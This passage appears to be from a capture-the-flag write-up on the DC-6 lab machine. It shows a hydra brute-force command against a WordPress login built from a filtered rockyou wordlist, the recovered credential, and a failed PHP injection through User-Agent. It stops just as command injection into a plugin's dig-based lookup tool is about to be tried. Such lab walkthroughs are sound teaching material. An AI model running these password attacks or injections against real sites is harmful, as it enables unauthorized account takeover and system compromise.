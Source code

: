 ```
$ cat /opt/wordlists/rockyou.txt | grep k01 > dc6passwords.txt
$ cat << EOF >> dc6users.txt
cmdand heredoc> admin
cmdand heredoc> mark
cmdand heredoc> graham
cmdand heredoc> sarah
cmdand heredoc> jens
cmdand heredoc> EOF

$ hydra -L dc6users.txt -P dc6passwords.txt wordy http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1:F=The password"
[...]
[80][http-post-form] host: wordy   login: mark   password: helpdesk01
```

We can now log in the admin page with this credential.

The site use a plugin called "Activity Monitor". This plugins seems to show an activity log. There's something interesting in the log :

![activitymonitor](/assets/img/vh-dc6/dc6-1.png "activitymonitor")

Since User-Agent is a user controlled field, I tried to inject some PHP code, but it's sanitized and doesn't work.

Next thing is the "Tools" tab with 2 tools, one to convert an IP address to integer and the other one to resolve the IP. The resolve tool mention using dig to resolve the IP :

> _The lookup button will try to resolve an IP address to a host name. If dig is installed on the webserver it will also be used for the lookup._

Let's try to inject some OS commands:
